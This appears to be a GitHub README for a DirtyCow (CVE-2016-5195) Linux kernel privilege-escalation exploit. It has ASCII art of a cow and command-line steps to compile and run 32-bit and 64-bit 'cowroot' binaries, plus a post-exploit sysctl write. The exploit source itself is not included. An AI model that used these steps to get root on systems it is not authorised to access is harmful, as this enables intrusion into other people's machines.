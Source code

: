 # DirtyCow

                        .=     ,        =.
                _  _   /'/    )\,/,/(_   \ \
                 `//-.|  (  ,\\)\//\)\/_  ) |
                 //___\   `\\\/\\/\/\\///'  /
              ,-"~`-._ `"--'_   `"""`  _ \`'"~-,_
              \       `-.  '_`.      .'_` \ ,-"~`/
               `.__.-'`/   (-\        /-) |-.__,'
                 ||   |     \O)  /^\ (O/  |
                 `\\  |         /   `\    /
                   \\  \       /      `\ /
                    `\\ `-.  /' .---.--.\
                      `\\/`~(, '()      ('
                       /(O) \\   _,.-.,_)
                      //  \\ `\'`      /
                     / |  ||   `""""~"`
                   /'  |__||
                         `o
           
           
           
DirtyCow (CVE-2016-5195) is a privilege escalation vulnerability in the Linux Kernel  
This exploit is for both 32 and 64-bit 

# Usage Example For 32 Bit

* $ gcc dc32.c -o cowroot -pthread
* $ ./cowroot
* $ echo 0 > /proc/sys/vm/dirty_writeback_centisecs

# Usage Example For 64 Bit

* $ gcc dc64.c -o cowroot -pthread
* $ ./cowroot
* $ echo 0 > /proc/sys/vm/dirty_writeback_centisecs
